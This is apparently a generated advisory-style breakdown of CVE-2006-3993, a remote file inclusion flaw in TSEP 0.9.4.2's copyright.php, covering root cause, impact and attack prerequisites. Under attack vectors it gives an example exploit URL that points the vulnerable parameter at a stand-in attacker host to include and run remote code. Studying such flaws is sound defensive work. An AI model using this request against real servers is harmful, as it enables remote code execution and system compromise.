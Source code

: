 Based on the provided content, here's the breakdown of the vulnerability:

**CVE ID:** CVE-2006-3993

**Root Cause:**

*   The vulnerability stems from a lack of proper sanitization of the `$tsep_config["absPath"]` variable before it is used in the `copyright.php` file. This variable is used in a `require()` statement, which leads to the inclusion of arbitrary files.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The application is vulnerable to RFI due to the insecure use of the `require()` function. By manipulating the `$tsep_config["absPath"]` parameter, an attacker can force the application to include a malicious file from a remote server.

**Impact of Exploitation:**

*   **Remote Code Execution (RCE):** Successful exploitation of this vulnerability allows an attacker to execute arbitrary code on the server. This can lead to a complete compromise of the affected system.

**Attack Vectors:**

*   **HTTP GET Request:** The vulnerability is exploited via a crafted HTTP GET request to `copyright.php`, where the `tsep_config[absPath]` parameter is set to a malicious URL.
    *   Example: `http://[target]/include/copyright.php?tsep_config[absPath]=http://evilsite.com?cmd=ls`

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **Remote Server:** The attacker needs a remote server to host the malicious file to be included.

**Additional Details:**

*   The vulnerable software is TSEP 0.9.4.2.
*   The exploit involves setting the `tsep_config["absPath"]` parameter to a remote URL, causing the application to include and execute the remote code.
*   The exploit-db entry also lists CVE-2006-4085 and CVE-2006-4055 as related to this exploit.

This information provides a more detailed understanding of the vulnerability than the placeholder CVE description.